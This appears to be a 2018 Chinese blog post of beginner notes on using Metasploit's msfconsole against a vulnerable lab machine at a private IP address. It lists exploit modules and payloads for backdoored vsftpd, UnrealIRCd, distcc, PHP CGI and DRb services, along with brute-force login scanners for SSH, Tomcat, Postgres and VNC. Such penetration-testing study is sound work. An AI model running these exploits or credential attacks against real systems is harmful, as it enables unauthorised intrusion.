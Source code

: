 ```yaml
---
layout: post
title:  "msfconsole"
date:   2018-12-04 00:00:01 +0800
categories: 安全测试
tags: msfconsole
description: msfconsole初学
---
```

3.1	Vsftp 2.3.4 版本

Module：exploit/unix/ftp/vsftpd_234_backdoor

Payload：cmd/unix/interact

3.2	Web服务（80端口）

输入参数：

3.3	Php CGI注入

Module：exploit/multi/http/php_cgi_arg_injection

Payload：php/meterpreter/bind_tcp

3.4	SMB目录共享

139端口，445端口这两个都是smb类型的，是共享服务，首选我们需要知道它的共享目录有哪些

Module：auxiliary/scanner/smb/smb_enumusers

Module：auxiliary/admin/smb/samba_symlink_traversal

port 22 search ssh

use auxiliary/scanner/ssh/ssh_login

show options

set rhosts 192.168.190.130

set user_file /tmp/user.txt

set pass_file /tmp/passwd.txt

run


3.5	Msfable后门

telnet 192.168.190.130

3.6	JAVA反序列化



3.7	Distccd服务远程命令(不建议)

Module：exploit/unix/misc/distcc_exec

Payload：cmd/unix/bind_perl

3.8	Postgresql弱密码

use auxiliary/scanner/postgres/postgres_login

3.9	VNC服务

port 5900 vnc

use auxiliary/scanner/vnc/vnc_login

3.10	IRC服务

port 6667 IRC

use exploit/unix/irc/unreal_ircd_3281_backdoor

3.11	Tomcat服务

use auxiliary/scanner/http/tomcat_mgr_login

set user_file /tmp/user.txt

set pass_file /tmp/passwd.txt

set rport 8180


3.12	Drb服务

Module：exploit/linux/misc/drb_remote_codeexec

Payload：cmd/unix/bind_perl

3.13

redis

./redis-cli -p 30000 -h 192.168.190.130

info

3.14

echo envi|nc 192.168.190.130 2181
